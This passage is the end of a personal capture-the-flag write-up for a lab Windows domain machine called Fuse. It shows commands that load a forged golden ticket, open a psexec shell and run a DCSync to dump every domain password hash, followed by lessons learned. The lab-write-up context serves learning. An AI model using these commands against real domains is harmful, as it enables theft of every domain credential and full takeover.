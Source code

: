 -   **I sync my clock with the target**:
    -   `sudo ntpdate -s fuse.$domain`
    -   {{< figure src="/ox-hugo/2024-10-18-145936_.png" >}}

-   **I load the ticket into the** `KRB5CCNAME` **variable**:
    -   `export KRB5CCNAME=./admin.ccache`
    -   {{< figure src="/ox-hugo/2024-10-18-145947_.png" >}}

-   **I verify it works using a** `psexec` **session**:
    -   `impacket-psexec fuse.$domain -k`
    -   {{< figure src="/ox-hugo/2024-10-18-145959_.png" >}}


### Full DCSync attack using `netexec` and Golden Ticket: {#full-dcsync-attack-using-netexec-and-golden-ticket}

-   **Now that we have our Golden ticket we can use it to perform a DCSync attack and extract all the hashes**:
    -   `netexec smb $box --use-kcache -M ntdsutil`
    -   {{< figure src="/ox-hugo/2024-10-18-150059_.png" >}}



## Lessons Learned: {#lessons-learned}


### What did I learn? {#what-did-i-learn}

1. I learned that trying to get all your enumeration done very quickly before the password is reset can be frustrating. 

2. I learned that people will always use the description field to hold important information. 

3. I learned that the exploit really did not want to execute the nc64.exe binary no matter how hard I tried. However I think I may have a record for speed-running compiling exploits. 

### What silly mistakes did I make? {#what-silly-mistakes-did-i-make}

1. Had to revert the machine and forgot the hosts. 



## Sign off: {#sign-off}

Remember, folks as always: with great power comes great pwnage. Use this knowledge wisely, and always stay on the right side of the law!

Until next time, hack the planet!

&#x2013; Bloodstiller

&#x2013; Get in touch bloodstiller at proton dot me

